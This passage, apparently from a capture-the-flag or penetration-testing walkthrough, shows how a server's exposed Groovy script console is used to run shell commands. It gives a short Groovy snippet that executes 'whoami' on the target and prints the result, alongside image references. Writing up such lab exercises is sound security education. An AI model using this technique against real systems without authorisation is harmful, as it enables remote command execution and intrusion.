 ![](../images/max/1080/1*IynX8zwPNrzUbkQsQFZRSA.png)

As mentioned on the page, we can type in an arbitrary Groovy script and execute it on the server. A quick google search tells us how to run shell commands using Groovy.

```text
def command = "whoami"
def proc = command.execute()
println(proc.in.text)
```

Run the above script.

![](../images/max/1073/1*0umAEVe3N2z7TxCp7HsSdw.png)
